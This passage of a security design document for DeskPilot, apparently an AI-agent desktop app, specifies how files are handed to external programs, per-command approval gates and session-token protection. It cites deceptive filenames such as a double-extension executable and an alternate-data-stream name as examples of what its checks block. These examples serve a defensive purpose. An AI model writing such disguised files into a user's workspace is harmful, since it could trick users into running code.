- v1 recommends pointing it at a dedicated working folder, not a home or system
  directory.

## Opening a file outside DeskPilot (`POST /api/fs/open`)

The file explorer can hand a file to the program the operating system associates
with its type, which is the only way to read a spreadsheet or a Word document
DeskPilot cannot preview. That is a launch, and the agent writes into the very
folder the explorer lists, so the boundary is drawn by refusal rather than by
judging content:

- **An executable or script type is refused outright, not confirmed.** Every
  extension a supported platform treats as directly runnable or as script-host
  input (`Get-DpExecutableExtension`) is rejected with `403 executable`. There is
  no "are you sure" that gets past it and no Setting that whitelists one, so a
  `budget.xlsx.exe` the agent wrote cannot be launched by a click in the tree.
  The file is still readable in DeskPilot's own viewer.
- **The file type must be a plain `.` plus 1–16 letters or digits.** This is a
  shape allow-list, not a deny-list: an alternate data stream (`notes.txt:run.exe`),
  a name padded with trailing punctuation, or any other decorated suffix never
  reaches the shell.
- **The path is confined to the selected Project** exactly as `GET /api/fs/file`
  and `GET /api/fs/image` are, and must resolve to an existing file.
- **DeskPilot chooses no program and passes no arguments.** On Windows the path
  is handed to ShellExecute; elsewhere it is a single argv entry to `open` or
  `xdg-open`, so no shell re-splits a name containing spaces or quotes.
- **A remembered choice is per file type and the user's own.** `externalOpenTypes`
  is written only when the user ticks the box in the question, is validated
  against the same refusals on write, and every entry is listed in Settings with
  a control to remove it.

## Destructive-operations guidance

Mirroring the AgenticOperatingModel's guardrail theme:

- The UI flags File and Terminal as powerful and defaults Terminal off.
- Activity makes every write/command visible after the Turn.
- Docs recommend: work in a dedicated Workspace Folder, keep it under version
  control (so changes are diffable and revertible), and review Activity before
  trusting results.
- Confirm-before-run for every Terminal command, outside-Project write, and
  mutating MCP call is blocked on the Engine's pre-dispatch callback. See
  [120-per-call-approval-engine-contract.md](120-per-call-approval-engine-contract.md).

## Localhost & session token

- Default bind: `http://127.0.0.1:<random-or-configured-port>`.
- The launcher generates a random session token, prints the full URL
  (`http://127.0.0.1:port/?t=token`), and the Host Server requires the token on
  `/api/*`. This stops other local processes from driving the agent.
- Binding to a non-loopback address requires an explicit flag and is documented
  as advanced/at-your-own-risk.

## Out of scope (v1)

- Isolation of Tools other than the optional Terminal container boundary.
- Encrypting the Engine's cached token (upstream concern).
- Multi-user authn/authz.
